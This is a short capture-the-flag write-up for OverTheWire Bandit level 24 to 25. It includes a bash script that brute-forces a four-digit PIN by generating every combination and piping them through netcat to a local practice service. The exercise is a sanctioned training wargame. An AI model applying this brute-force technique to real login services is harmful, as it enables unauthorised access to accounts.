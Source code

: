 # OTW - Over The Wire (Bandit) :neckbeard:

## Level 24 ➡ Level 25
## Author: [@th3-gr00t](https://th33-gr00t.tk/) -  [:bird:](https://twitter.com/th3_gr00t/)

> For more resources you can check our my [blog](https://th33gr00t.blogspot.com/)

### Challenge

- The main goal of this challenge was to learn about brute-forcing.
- We were provided the `target host` to connect to, `port` to use, `username` and `password` for authentication.

### How I did it

- So to be honest, I googled alot. Not for the solution but for how to bruteforce using bash and later discovered we were required to use a for loop to create our wordlist.
- With this knowledge I created a script that would create a wordlist then pass it to out listening port on localhost.
- The script goes like this;

```sh
#! /bin/bash

wordlist=passlist.txt

echo -e "Creating wordlist\n"

for i in {0000..9999}
   do
     echo $password_bandit24 $i >> $wordlist
   done

echo -e "Done creating wordlist, proceeding to bruteforce.\n"
head -n 10 $wordlist
echo " "
cat $wordlist | nc localhost 30002
rm $wordlist
```

- The flag will be outputed when the right pin code and current level password has been passed.
- **Note:** The *flag* is the `password` for the next level.

### Conclusion / To Note

> If any please note them down here, if not leave it blank.
